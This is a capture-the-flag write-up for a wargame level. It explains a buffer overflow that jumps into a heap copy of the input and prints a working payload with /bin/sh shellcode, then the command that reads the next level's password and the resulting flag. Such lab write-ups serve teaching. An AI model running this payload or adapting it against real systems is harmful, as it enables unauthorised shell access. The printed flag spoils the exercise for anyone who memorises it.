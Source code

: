 # level2

We find an executable `level2`. We run `gdb level2` to examine it.

A `main` calls a `p` function, which seems to do a `gets`, compare an address, and run an `strdup` if the check fails.

This time, the executable doesn't call `system` ; we'll have to do it ourselves, with **shellcode**. Instead of filling our buffer with `A`, we're gonna fill it with executable code in hexadecimal.

There's a subtlety here : usually, we could run the code by directly pointing our return address to the buffer. But here, all stack addresses start with `0xb` - which is exactly what is checked by the `p` function. We'll have to use the heap by taking advantage of the `strdup` (which will duplicate our shellcode there) and setting our `eip` register to wherever `strdup` copies our buffer.

## **The exploit**

We need three things :

- The size of the buffer until `eip`
- A shellcode
- The address we're jumping to

We fill the beginning of the buffer with `NOP` instructions, which if read will simply direct to our shellcode.

We'll have something like this :

```
python2 -c 'print(NOP_INSTRUCTION * (BUFFER_SIZE - SHELLCODE_SIZE) + SHELLCODE + DESIRED_ADDRESS)'
```

## **Size of the buffer**

In GDB, we can run
```
i r $ebp
```
to get the ebp register's address. We get `0xbffff718`, which means `eip` is at `0xbffff71c` (4 bytes behind).

We adjust the `x/NUMBERxw $esp` command to show us the bytes from `esp` to `eip`.
```
x/28xw $esp
```
seems to do the trick.

We can tell the buffer starts at `0xbffff6cc` by inputting a bunch of `A`'s and checking where the `0x41414141` starts.

A quick `python2 -c "print(0xbffff71c - 0xbffff6cc)"` tells us the "buffer size" : `80`.

## **Shellcode**

For the shellcode, no need to reinvent the wheel. There are plenty of existing shellcodes on the internet.

On [this website](https://beta.hackndo.com/buffer-overflow/), we find the following shellcode, which is equivalent to `system("/bin/sh");` :

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

## **Address**

Finally, we need the target address. We want something on the heap, so the place where `strdup` copies the buffer would be good.

We set a breakpoint after `strdup` with `break *p+105` and check the value of `eax` with :

```
p/x $eax
```

We get `0x804a008`.

## **The command**

Now we can substitute :

```
python2 -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")'
```

Finally, we have to pipe it into the executable. Same as before, we run :

```
( python2 -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")' ; cat ) | ./level2
```

## **The flag**

It works ! In our interactive shell, we run :

```
cat /home/user/level3/.pass
```

... and get the flag for `level2` :

```
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```